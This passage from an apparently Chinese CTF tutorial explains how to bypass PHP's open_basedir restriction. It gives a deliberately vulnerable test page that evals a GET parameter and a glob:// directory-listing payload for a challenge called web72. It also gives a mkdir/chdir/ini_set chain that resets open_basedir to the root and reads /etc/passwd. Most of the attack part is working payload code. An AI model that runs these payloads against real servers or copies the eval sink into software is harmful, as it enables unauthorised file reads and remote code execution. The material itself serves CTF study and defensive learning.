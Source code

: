 ```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

这里对于web72也可以使用

```php
c=?><?php if ( $b = opendir("glob:///*") ) {while ( ($file = readdir($b)) !== false ) { echo $file."<br>";}closedir($b);}exit();
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f11729bea239f9294ec3b0f7dd860ed7.png" alt="" style="max-height:438px; box-sizing:content-box;" />


效果和 DirectoryIterator一样

只能根目录和限定目录

## 0x05  通过 ini_set和chdir来绕过

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/70d71234dbc5161ec169b31cafe7d35d.png" alt="" style="max-height:192px; box-sizing:content-box;" />


通过相对路径

```scss
mkdir('mi1k7ea');chdir('mi1k7ea');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
```

首先我们创建一个可以上下跳的目录

```cobol
/var/www/html
 
创建 mi1k7ea 
 
/var/www/html/mi1k7ea
 
切换到当前目录 通过 chdir
 
然后ini_set 设置 open_basedir为 ..
 
那么这个时候 php.ini里的内容就为 ..
那我们进行切换工作目录
 
chdir .. 返回上一个目录 即/var/www/html
 
通过 open_basedir的比对 符合.. 那么就可以访问
 
```